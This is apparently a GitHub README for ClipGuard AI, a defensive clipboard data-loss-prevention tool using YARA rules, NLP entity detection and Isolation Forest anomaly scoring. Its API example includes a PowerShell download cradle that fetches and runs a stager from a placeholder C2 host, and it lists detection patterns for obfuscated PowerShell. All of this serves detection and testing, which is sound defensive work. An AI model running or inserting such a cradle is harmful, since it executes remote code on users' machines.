

<div align="center">

# 🛡️ ClipGuard AI
### Enterprise Zero-Trust Endpoint Data Loss Prevention (DLP) & Insider Threat Intelligence

[](https://python.org)
[](https://fastapi.tiangolo.com)
[](https://react.dev)
[](https://vitejs.dev)
[](https://scikit-learn.org)
[](https://microsoft.github.io/presidio/)
[](https://virustotal.github.io/yara/)
[](https://www.docker.com)
[](LICENSE)

<br/>

**A multi-tiered cyber defense platform engineered to detect unauthorized data exfiltration, insider threats, and clipboard hijacking malware in real time using Natural Language Processing, Unsupervised Behavioral Machine Learning, and compiled YARA signatures.**

[Key Innovations](#-key-innovations) • [Architecture](#-system-architecture) • [Detection Engine](#-multi-tier-detection-pipeline) • [MITRE ATT&CK](#-mitre-attck-mapping) • [Quickstart](#-installation--quickstart) • [API Reference](#-api--websocket-specification) • [Resume Highlights](#-resume--engineering-highlights)

</div>

---

## 📌 Executive Summary & Problem Space

The operating system clipboard represents one of the largest unmonitored attack surfaces in modern enterprise infrastructure. While enterprises spend millions securing email gateways, cloud storage, and perimeter firewalls:
- **Zero Visibility into Volatile Transfers**: The OS clipboard bypasses static disk-based security controls and network DLP until data has already crossed security boundaries.
- **Fragile Legacy DLP Solutions**: Traditional pattern-matching and regex-heavy DLP engines suffer from high false-positive rates (e.g., misclassifying 16-digit tracking codes as credit card numbers) and lack semantic context.
- **Automated Malware Vectors**: Advanced Persistent Threats (APTs), ransomware droppers, and crypto-clipper malware continuously poll or tamper with the clipboard to harvest credentials, replace destination wallet addresses, or prepare encryption keys.

**ClipGuard AI** bridges this critical defense gap. By combining low-level Windows API hooks, context-aware NLP entity recognition, unsupervised machine learning (Isolation Forests), YARA signature heuristics, and Cyber Threat Intelligence (CTI) feeds, ClipGuard delivers real-time process-attributed threat telemetry with zero-trust in-memory redaction.

---

## 🚀 Key Innovations

- **🧠 Semantic NLP Entity Extraction (Presidio & SpaCy)**: Replaces brittle regexes with Microsoft's Presidio contextual NLP engine (`en_core_web_sm`) to disambiguate sensitive data (Credit Cards, SSNs, IBANs, API keys, Passwords) from ordinary text based on sentence semantics.
- **🤖 Unsupervised Behavioral Anomaly Detection (Isolation Forest)**: Dynamically profiles process clipboard interactions over rolling temporal windows. Evaluates frequency spikes, character distribution, and entropy without relying on hardcoded static rules—exposing zero-day clipboard-hijacking bots and ransomware.
- **🧬 Real-Time YARA Signature Matching**: Compiles enterprise-grade YARA rules to detect ransomware extortion notes, obfuscated PowerShell execution patterns (`IEX`, Base64 decoding cradles), and SQL injection attempts directly from volatile memory.
- **🌐 Cyber Threat Intelligence (CTI) IOC Correlation**: Correlates extracted indicators of compromise (C2 IP addresses, high-risk cryptocurrency wallet addresses linked to state-sponsored actors like Lazarus Group) against threat intelligence feeds.
- **🔒 Privacy-by-Design Dynamic Redaction**: In-memory asterisk masking prevents plaintext PII or secrets from ever reaching telemetry logs, persistent storage, or SOC displays.
- **⚡ Glassmorphism SOC Mission Control**: Real-time reactive telemetry dashboard built with React 19, Vite, and Recharts, streaming threat telemetry over low-latency WebSockets with sub-millisecond dispatch.

---

## 🏗️ System Architecture

ClipGuard AI is architected as a distributed microservice stack decoupling low-level endpoint telemetry collection from high-throughput analytical inference and real-time visualization:



---

## 🔬 Multi-Tier Detection Pipeline

### 1. Endpoint Telemetry & Process Attribution
The host agent runs natively on the Windows endpoint using low-level Win32 system APIs:
- Accesses `win32clipboard.GetClipboardOwner()` to obtain the window handle (`HWND`) of the process placing content onto the clipboard.
- Resolves the thread and process ID using `win32process.GetWindowThreadProcessId()`.
- Obtains deep process metadata (binary name, executable path, process tree) via `psutil`.
- Dispatches structured events to the ingestion gateway over asynchronous HTTP with sub-second polling intervals.

### 2. Context-Aware NLP Entity Recognition (Presidio)
Unlike static regex rules that flag any 16-digit sequence, the NLP analyzer evaluates lexical and semantic tokens:
- **Entities Recognized**: Credit card numbers, Social Security Numbers (US SSN), IBAN codes, crypto wallet addresses, email addresses, and API credentials.
- **Contextual Confidence Scoring**: Leverages language models to verify surrounding token context (e.g., detecting keywords like `cvv`, `expires`, `card number`, `ssn`), assigning a granular confidence score between `0.0` and `1.0`.

### 3. Unsupervised Behavioral Anomaly Detection (Isolation Forest)
Malicious software interacting with the clipboard behaves fundamentally differently from human operators:
- **Rolling Temporal Windows**: Maintains a per-process historical buffer over a sliding window ($\Delta t = 60\text{s}$).
- **Feature Vector Formulation**:
  $$\mathbf{x} = \begin{bmatrix} \text{Payload Length} \\ \text{Shannon Entropy } H(X) \end{bmatrix}$$
- **Isolation Forest Model**: An ensemble of isolation trees splits instances until data points are isolated. Anomalies (e.g., rapid clipboard polling, sudden massive payload dumps, abnormal high-entropy injections) require fewer splits and receive an anomaly score of $-1$.
- **Dynamic Heuristic Fallback**: Evaluates frequency bounds ($N > 20$ operations/window) during model warm-up phases.

### 4. Shannon Entropy Analysis
To detect encrypted payloads, obfuscated code, and cryptographically generated API tokens, ClipGuard calculates the Shannon Entropy $H(X)$:

$$H(X) = -\sum_{i=1}^{n} P(x_i) \log_2 P(x_i)$$

Where:
- $n$ is the number of distinct characters in the captured payload.
- $P(x_i)$ is the empirical probability of character $x_i$ occurring.

If $H(X) > 4.5$, the payload is flagged as high-entropy, signaling potential private keys, tokens, or packed shellcode.

### 5. Compiled YARA Signature Engine
The backend compiles native YARA rules (`rules/advanced_signatures.yar`) to inspect in-flight strings for known threat patterns:
- **Ransomware Extortion Notes**: Identifies phrases such as *"Your files are encrypted"*, *"pay the ransom"*, or Bitcoin ransom demands.
- **Obfuscated Shell Execution**: Detects suspicious PowerShell invocation patterns (`IEX`, `Invoke-Expression`, `[Convert]::FromBase64String`, `Hidden -Command`).
- **Web Attack Vectors**: Identifies SQL injection injection payloads and command manipulation.

### 6. Threat Intelligence IOC Correlation
Intercepted IP addresses and cryptocurrency addresses are correlated against known indicators of compromise:
- **C2 Command Nodes**: Matches against malicious infrastructure (e.g., known Ransomware C2 servers).
- **Compromised Wallet Databases**: Identifies cryptocurrency addresses linked to cybercrime syndicates and state-sponsored groups (e.g., Lazarus Group).

---

## ⚖️ Composite Risk Scoring Model

ClipGuard AI computes a deterministic composite risk score $\mathcal{R} \in [0, 100]$ for each clipboard event:

$$\mathcal{R} = \min\left(100, \; \mathcal{R}_{\text{NLP}} + \mathcal{R}_{\text{Regex}} + \mathcal{R}_{\text{Entropy}} + 30 \cdot \mathbb{I}_{\text{anomaly}} + 10 \cdot \mathcal{W}_{\text{YARA}} + 50 \cdot \mathbb{I}_{\text{CTI}}\right)$$

Where:
| Parameter | Description | Typical Value Range |
| :--- | :--- | :--- |
| $\mathcal{R}_{\text{NLP}}$ | Presidio entity confidence score scaled by entity severity | $0 - 30$ |
| $\mathcal{R}_{\text{Regex}}$ | Configurable rule weights from `detection_rules.yaml` | $0 - 20$ |
| $\mathcal{R}_{\text{Entropy}}$ | Configurable weight assigned when $H(X) > 4.5$ | $0 - 5$ |
| $\mathbb{I}_{\text{anomaly}}$ | Indicator function for Isolation Forest prediction ($\text{prediction} == -1$) | $\{0, 1\}$ |
| $\mathcal{W}_{\text{YARA}}$ | Highest weight assigned by matching YARA rule metadata | $0 - 10$ |
| $\mathbb{I}_{\text{CTI}}$ | Indicator function for confirmed Threat Intel IOC match | $\{0, 1\}$ |

---

## 🗺️ MITRE ATT&CK Mapping

ClipGuard directly aligns with the industry-standard MITRE ATT&CK enterprise knowledge base:

| Technique ID | Technique Name | Tactic | ClipGuard AI Detection & Mitigation |
| :--- | :--- | :--- | :--- |
| **[T1115](https://attack.mitre.org/techniques/T1115/)** | **Clipboard Data** | Collection, Credential Access | Intercepts `win32clipboard` read/write events; attributes process PID; flags sensitive credential harvesting in real time. |
| **[T1078](https://attack.mitre.org/techniques/T1078/)** | **Valid Accounts** | Defense Evasion, Persistence | Detects insider threats attempting to exfiltrate database keys, JWTs, and cloud credentials via copy-paste. |
| **[T1059.001](https://attack.mitre.org/techniques/T1059/001/)** | **PowerShell** | Execution | YARA rule scanner detects obfuscated `IEX` and Base64-decoded download cradles staged in the clipboard. |
| **[T1020](https://attack.mitre.org/techniques/T1020/)** | **Automated Exfiltration** | Exfiltration | Isolation Forest detects abnormal high-frequency polling from unauthorized background helper processes. |
| **[T1486](https://attack.mitre.org/techniques/T1486/)** | **Data Encrypted for Impact** | Impact | YARA signatures flag ransomware payment instructions, victim IDs, and extortion notes copied to/from clipboard. |

---

## 💻 Tech Stack & Engineering Specifications

```
ClipGuard AI
├── Endpoint Layer       : Python 3.10+, pywin32, psutil, Requests
├── Ingestion Gateway    : FastAPI 0.103+, Uvicorn (ASGI), Pydantic v2
├── Machine Learning     : Scikit-Learn (Isolation Forest), Pandas, NumPy
├── NLP & NER            : Microsoft Presidio Analyzer 2.2+, SpaCy (en_core_web_sm)
├── Signature Engine     : YARA-Python 4.3+ (Compiled C-bindings)
├── State Management     : Redis 5.0 (Alpine container)
├── Telemetry Transport  : WebSockets (Full-Duplex ASGI connection)
├── Dashboard Frontend   : React 19, Vite, Recharts, Lucide Icons, Modern CSS Glassmorphism
└── Containerization     : Docker, Docker Compose (Multi-stage builds)
```

---

## 📁 Repository Structure

```plaintext
CLIPGAURD/
├── agent/                          # Native Host Endpoint Telemetry Agent
│   ├── clip_agent.py               # Win32 clipboard hook & process attribution loop
│   └── requirements.txt            # Endpoint dependencies (pywin32, psutil, requests)
├── backend/                        # Central AI & Threat Analytics Engine
│   ├── api/
│   │   └── main.py                 # FastAPI application, REST endpoints, WebSocket hub
│   ├── core/
│   │   └── threat_intel.py         # Cyber Threat Intelligence (IOC correlation engine)
│   ├── detection/
│   │   └── yara_scanner.py         # YARA compiler and memory scanner
│   ├── ml_engine/
│   │   ├── anomaly_detector.py     # Isolation Forest unsupervised behavioral profiler
│   │   └── nlp_analyzer.py         # Presidio NLP analyzer & Shannon entropy calculator
│   ├── test_simulation.py          # Threat simulation & validation harness
│   ├── Dockerfile                  # Container definition (Python 3.11-slim + libyara)
│   └── requirements.txt            # Backend dependencies
├── config/
│   └── detection_rules.yaml        # Configurable heuristics, weights, and entropy limits
├── dashboard/                      # SOC Command Center (React 19 + Vite)
│   ├── src/
│   │   ├── assets/                 # Brand assets & iconography
│   │   ├── App.jsx                 # Mission control UI, WebSocket hook, Recharts telemetry
│   │   ├── App.css                 # Glassmorphic dark styling & responsive grid
│   │   ├── index.css               # Global theme variables & typography
│   │   └── main.jsx                # React root mount
│   ├── Dockerfile                  # Container definition (Node 18-Alpine)
│   ├── package.json                # React, Vite, Recharts, Lucide-React
│   └── vite.config.js              # Vite bundler configuration
├── rules/
│   └── advanced_signatures.yar     # Compiled enterprise YARA rule definitions
├── docker-compose.yml              # Microservice orchestration specification
├── .gitignore                      # Production Git ignore specifications
└── README.md                       # Architectural documentation
```

---

## ⚡ Installation & Quickstart

### Prerequisites
- [Docker](https://docs.docker.com/get-docker/) & [Docker Compose](https://docs.docker.com/compose/)
- Python 3.10+ (for running the native host agent)
- Windows OS (for running the native Win32 endpoint agent)

---

### Step 1: Launch the Infrastructure (Docker Compose)
Clone the repository and spin up the backend analytics engine, Redis broker, and React dashboard with a single command:

```bash
git clone https://github.com/phanishree2005/clipgaurd-ai.git
cd clipgaurd-ai

# Build and start all services in detached mode
docker-compose up --build -d
```

Verify service availability:
- **SOC Dashboard**: [http://localhost:5173](http://localhost:5173)
- **Interactive Swagger API Docs**: [http://localhost:8000/docs](http://localhost:8000/docs)
- **Redis Broker**: `localhost:6379`

---

### Step 2: Start the Native Endpoint Agent (Windows Host)
In a new terminal on your Windows host:

```bash
cd agent
python -m venv venv
venv\Scripts\activate
pip install -r requirements.txt

# Run the agent with active process attribution
python clip_agent.py
```

*Output:*
```plaintext
2026-11-25 20:00:00 - INFO - ClipGuard Agent Started. Monitoring clipboard...
```

Any standard copy event on your Windows machine (`Ctrl + C`) is instantly captured, attributed to the originating binary (`chrome.exe`, `code.exe`, etc.), analyzed, and broadcast to the dashboard.

---

### Step 3: Execute the Automated Threat Simulation Suite
To evaluate the detection engine against sophisticated simulated attacks without manual copying:

```bash
cd backend
python test_simulation.py
```

The test harness executes four consecutive threat vectors:
1. **Normal Operational Baseline**: Simulates standard productivity behavior (`WINWORD.EXE`, `chrome.exe`) to initialize the Isolation Forest profile.
2. **Insider Threat (PII & Secret Exfiltration)**: Copies raw credit card numbers via `notepad.exe` and AWS access keys via `slack.exe`.
3. **APT & Ransomware Staging**: Copies obfuscated PowerShell download cradles (`powershell.exe`) and extortion notes containing Bitcoin addresses (`cmd.exe`).
4. **Clipboard Hijacker (Malware Polling Spike)**: Triggers 30 rapid-fire clipboard queries in milliseconds from `svchost_suspicious.exe` to trigger the Isolation Forest behavioral alarm.

Watch the SOC dashboard at `http://localhost:5173` dynamically update telemetry metrics, plot risk spikes on the real-time area chart, and display color-coded finding tags!

---

## 📡 API & WebSocket Specification

### 1. Ingestion Endpoint
#### `POST /api/v1/events`
Receives telemetry payloads from endpoint agents.

**Request Body:**
```json
{
  "process_name": "powershell.exe",
  "process_id": 4812,
  "text": "IEX (New-Object Net.WebClient).DownloadString('http://malicious.c2/stager.ps1')",
  "timestamp": 1771948800.0
}
```

**Response (200 OK):**
```json
{
  "status": "success",
  "risk": 90.0
}
```

---

### 2. WebSocket Telemetry Stream
#### `GET /ws`
Full-duplex WebSocket endpoint streaming enriched threat telemetry to SOC dashboards.

**Sample Broadcast Frame:**
```json
{
  "timestamp": 1771948800.0,
  "process_name": "cmd.exe",
  "process_id": 9214,
  "overall_risk": 95.0,
  "redacted_text": "Your files are encrypted. Send 1 BTC to ******************************************",
  "findings": {
    "nlp_regex": [
      {
        "type": "Crypto",
        "confidence": 1.0,
        "source": "Regex",
        "rule_name": "crypto_wallet"
      }
    ],
    "yara": [
      {
        "rule": "APT_Ransomware_Note_String",
        "description": "Detects common ransomware note strings in clipboard",
        "weight": 10,
        "source": "YARA"
      }
    ],
    "threat_intel": [
      {
        "indicator": "bc1qxy2kgdygjrsqtzq2n0yrf2493p83kkfjhx0wlh",
        "type": "Malicious Crypto Wallet",
        "description": "Lazarus Group Associated",
        "source": "ThreatIntel"
      }
    ],
    "behavior": {
      "is_anomaly": false,
      "reason": "Normal",
      "confidence": 1.0
    }
  }
}
```

---

## ⚙️ Custom Rule Authoring

### Adding YARA Rules (`rules/advanced_signatures.yar`)
Add signatures with custom metadata and scoring weights:

```yara
rule Detect_AWS_Keys
{
    meta:
        description = "Detects AWS Access Key IDs"
        author = "Security Operations"
        weight = 10
    strings:
        $aws_key = /AKIA[0-9A-Z]{16}/
    condition:
        $aws_key
}
```

### Adding Heuristic & Regex Rules (`config/detection_rules.yaml`)
Configure custom entity rules, weights, and entropy limits:

```yaml
rules:
  jwt:
    pattern: "ey[A-Za-z0-9_-]{10,}\\.[A-Za-z0-9_-]{10,}\\.[A-Za-z0-9_-]{10,}"
    weight: 9
    type: "Token"

engine:
  entropy_threshold: 4.5
  entropy_weight: 5

behavior:
  polling_window_seconds: 60
  max_accesses_per_window: 20
  isolation_forest_contamination: 0.05
```

---

## 🏆 Resume & Engineering Highlights

This project demonstrates advanced cross-disciplinary competencies in **Cybersecurity Engineering, Machine Learning Systems, Distributed Architectures, and Full-Stack Development**:

1. **Low-Level Endpoint Systems Programming**: Integrated native Windows Win32 API functions (`win32clipboard`, `win32process`, `win32gui`) and `psutil` to achieve real-time clipboard inspection with zero-leak process attribution and window context tracking.
2. **Machine Learning for Security (AI/MLSec)**: Implemented unsupervised anomaly detection utilizing **Scikit-Learn Isolation Forests** to model dynamic per-process behavioral distributions (payload length, Shannon entropy, temporal frequency), overcoming the limitations of brittle static thresholds.
3. **Advanced NLP for Data Protection**: Deployed Microsoft's **Presidio Analyzer** powered by **SpaCy** language models to deliver context-aware Named Entity Recognition (NER), slashing false positives compared to standard regex-based DLP tools.
4. **High-Throughput Asynchronous Backend**: Architected a production-ready **FastAPI** microservice utilizing asynchronous request handling, Pydantic v2 data validation, and real-time WebSocket broadcasting with sub-second latency.
5. **Defense-in-Depth Pipeline**: Orchestrated 5 concurrent evaluation stages (Presidio NLP, Isolation Forest, compiled YARA signatures, Shannon Entropy heuristics, and Cyber Threat Intelligence IOC correlation) into a unified risk scoring matrix.
6. **Zero-Trust Privacy Engineering**: Built in-memory character redaction algorithms to mask sensitive identifiers at ingestion, ensuring zero plaintext PII persistence in compliance with GDPR and HIPAA mandates.
7. **Cloud-Native Containerization**: Built a multi-service containerized environment using **Docker Compose** encompassing the Python analytics engine, Redis broker, and Vite React frontend with environment-driven configurations.

---

## 📄 License

This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for details.

---

<div align="center">

**Developed by [Phanishree N](https://github.com/phanishree2005)**  
*Building intelligent, resilient cybersecurity and machine learning systems.*

</div>
